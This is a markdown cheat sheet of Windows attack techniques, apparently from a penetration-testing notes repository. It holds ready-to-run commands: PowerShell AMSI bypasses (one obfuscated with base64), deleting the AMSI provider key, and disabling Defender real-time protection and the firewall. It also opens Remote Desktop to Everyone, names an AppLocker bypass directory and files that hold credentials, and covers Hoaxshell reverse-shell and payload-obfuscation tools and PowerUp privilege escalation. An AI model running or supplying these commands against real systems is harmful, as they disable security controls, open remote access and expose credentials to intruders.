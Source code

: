 #  Bypass Windows AMSI / AV Evasion
- Using commands in shell:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

Set-MpPreference -DisableRealtimeMonitoring $true
```
- Using [AMSITrigger.exe](https://github.com/RythmStick/AMSITrigger). This will show powershell triggers and help to modify the payload manually. 
```powershell
AmsiTrigger.exe -i shell.ps1
```
- Using [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation). As it encodes the payload in numerous ways.
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK <Payload>
OR
SET SCRIPTPATH <URL of payload>
```
- Using [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). We can find the bad chars and then edit it using `hexeditor` in linux to a new file to bypass the defender and AV. By default, the bad chars are at the bottom.
```powershell
ThreatCheck.exe -f Grunt.bin -e AMSI, Defender
```
- Using [Hoaxshell](https://github.com/t3l3machus/hoaxshell). We can bypass AV using the payload generated by Hoaxshell.
```powershell
./hoaxshell.py -s <LHOST>
```

# Disable real-time protection on Windows.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Turn Firewall off on Windows:
```bash
netsh advfirewall set allprofiles state off
```
# Remote Desktop Connection:
```bash
net localgroup "Remote Desktop Users" Everyone /Add
```

## Bypass Windows Applocker

- Safer location for executing binaries.

 `C:\Windows\System32\spool\drivers\color`

# Powershell command history

  `\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

# Users' passwords in base64 encoding.

  `C:\Windows\Panther\Unattend\Unattended.xml`

# Privilege Escalation

- Use [PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

   ```powershell
   . .\PowerUp.ps1
  Invoke-AllChecks
  ```
